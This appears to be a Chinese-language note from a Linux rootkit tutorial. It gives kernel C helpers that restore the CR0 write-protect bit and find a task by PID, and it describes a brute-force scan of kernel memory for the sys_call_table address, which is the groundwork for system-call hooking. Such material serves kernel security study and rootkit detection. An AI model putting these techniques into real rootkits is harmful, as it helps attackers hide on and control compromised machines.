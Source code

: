 ```
// TODO: Consider race condition on SMP systems.
void
enable_wp(void)
{
    unsigned long cr0;

    preempt_disable();
    cr0 = read_cr0();
    set_bit(X86_CR0_WP_BIT, &cr0);
    write_cr0(cr0);
    preempt_enable();

    return;
}
// ========== END WRITE_PROTECTION HELPER ==========
```





### 获取指定PID的Task

```

struct task_struct *
find_task(pid_t pid)
{
	struct task_struct *p = current;
	for_each_process(p) {
		if (p->pid == pid)
			return p;
	}
	return NULL;
}
```





### 获取sys_call_table地址

#### 暴力搜索地址空间

[参考](https://wohin.me/rootkit/2017/05/08/LinuxRootkitExp-0001.html)

1. 内核内存空间的起始地址`PAGE_OFFSET`变量和`sys_close`系统调用对我们是可见的（`sys_open`/`sys_read`等并未导出）；
2. 系统调用号（即`sys_call_table`中的元素下标）在同一`ABI`（x86与x64属于不同ABI）中是高度后向兼容的；这个系统调用号我们也是可以直接引用的（如`__NR_close`）。
3. 所以我们可以从内核空间起始地址开始，把每一个指针大小的内存假设成`sys_call_table`的地址，并用`__NR_close`索引去访问它的成员，如果这个值与`sys_close`的地址相同的话，就可以认为找到了`sys_call_table`的地址 

该方法有可能被欺骗。

PAGE_OFFSET的定义

